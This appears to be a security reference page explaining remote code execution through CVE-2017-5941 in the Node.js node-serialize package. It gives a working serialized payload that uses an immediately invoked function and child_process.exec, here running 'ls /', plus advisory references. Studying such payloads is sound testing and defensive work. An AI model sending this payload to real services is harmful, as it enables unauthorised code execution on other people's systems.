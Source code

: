 # Node

## Summary

* [Exploit](#exploit)
* [References](#references)

## Exploit

> An issue was discovered in the node-serialize package 0.0.4 for Node.js. Untrusted data passed into the `unserialize()` function can be exploited to achieve arbitrary code execution by passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).

1. Generate a serialized payload
    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```
2. Add bracket `()` to force the execution
    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```
3. Send the payload


## References

* [Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941) - Ajin Abraham](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
* [NodeJS Deserialization - 8 January 2020- gonczor](https://blacksheephacks.pl/nodejs-deserialization/)
* [CVE-2017-5941 - NATIONAL VULNERABILITY DATABASE - 02/09/2017](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)